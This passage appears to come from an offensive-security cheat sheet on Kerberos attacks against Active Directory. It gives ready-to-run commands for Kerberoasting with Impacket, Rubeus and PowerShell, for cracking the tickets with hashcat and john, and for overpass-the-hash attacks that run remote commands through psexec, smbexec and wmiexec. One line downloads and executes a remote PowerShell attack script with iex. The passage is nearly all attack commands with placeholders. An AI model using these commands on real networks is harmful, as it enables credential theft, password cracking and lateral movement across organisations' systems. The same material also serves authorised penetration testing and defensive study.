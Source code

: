 #### Linux (external) <a href="#linux-external-2" id="linux-external-2"></a>

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

```powershell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

#### Windows (internal) <a href="#windows-internal-2" id="windows-internal-2"></a>

With [Rubeus](https://github.com/GhostPack/Rubeus):

```powershell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:



```powershell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Overpass The Hash/Pass The Key (PTK) <a href="#overpass-the-hash-pass-the-key-ptk" id="overpass-the-hash-pass-the-key-ptk"></a>

> NTDS.DIT, SAM files or lsass with mimi

#### Linux (external) <a href="#linux-external-3" id="linux-external-3"></a>

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```powershell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
